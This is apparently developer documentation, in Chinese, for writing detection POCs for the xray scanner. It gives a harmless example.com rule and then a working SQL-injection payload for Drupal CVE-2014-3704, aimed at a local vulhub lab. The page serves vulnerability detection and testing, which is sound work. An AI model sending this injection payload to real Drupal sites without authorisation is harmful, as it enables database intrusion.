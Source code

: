 ```yaml
---
title: '快速开始'
description: '在开发者文档中，我们将详细介绍如何编写POC和指纹识别规则'
---
```


我们拿访问example.com并匹配他的title来举例，首先我们需要准备一个POC文件，POC文件是一个yaml文件，包含了请求的信息和匹配的表达式，下面是一个简单的POC文件：

**POC:**
```yaml
name: poc-yaml-example
transport: http
rules:
  r0:
    request:
      method: GET
      path: /
    expression: response.status == 200 && response.title.bcontains(b"Example Domain")
expression: r0()
detail:
  author: test
  links:
    - https://example.com
```
## 如何使用 POC

将上述POC保存为example.yml，假定与xray可执行文件存放于同一目录下，可执行如下命令：

```shell
./xray ws --poc example.yml --url http://127.0.0.1:8080
```
![](/images/plugins/yaml/hit.png)

## 如何调试 POC

如果 poc 无法扫出期望的结果，可以按照以下思路调试

- 确定 poc 语法正确，payload 正确。
- 在配置文件 `http` 段中加入 `proxy: "http://proxy:port"`，比如设置 burpsuite 为代理，这样 poc 发送的请求可以在 burp 中看到，看是否是期望的样子。

[//]: # (TODO：添加Burp发包截图)

## 实际案例

使用CVE-2014-3704进行举例，这是一个Drupal的未授权sql注入漏洞，靶场参考[vulhub/drupal/CVE-2014-3704](https://github.com/vulhub/vulhub/blob/master/drupal/CVE-2014-3704)

**POC:**
```yaml
name: poc-yaml-drupal-cve-2014-3704-sqli
transport: http
set:
  rand: randomInt(200000000, 210000000)
rules:
  r0:
    request:
      method: POST
      path: /?q=node&destination=node
      headers:
        Content-Type: application/x-www-form-urlencoded
      body: pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,(select md5({{rand}}))),0)%23]=bob&name[0]=a
    expression: >-
      response.status == 500 &&
      response.body.bcontains(bytes(substr(md5(string(rand)), 0, 31)))
expression: r0()
detail:
  author: test
  links:
    - https://github.com/vulhub/vulhub/tree/master/drupal/CVE-2014-3704
```
将上述POC保存为drupal-cve-2014-3704-sqli.yml，假定与xray可执行文件存放于同一目录下，可执行如下命令：

```shell
./xray ws --poc drupal-cve-2014-3704-sqli.yml --url http://127.0.0.1:8080
```
即可检测出漏洞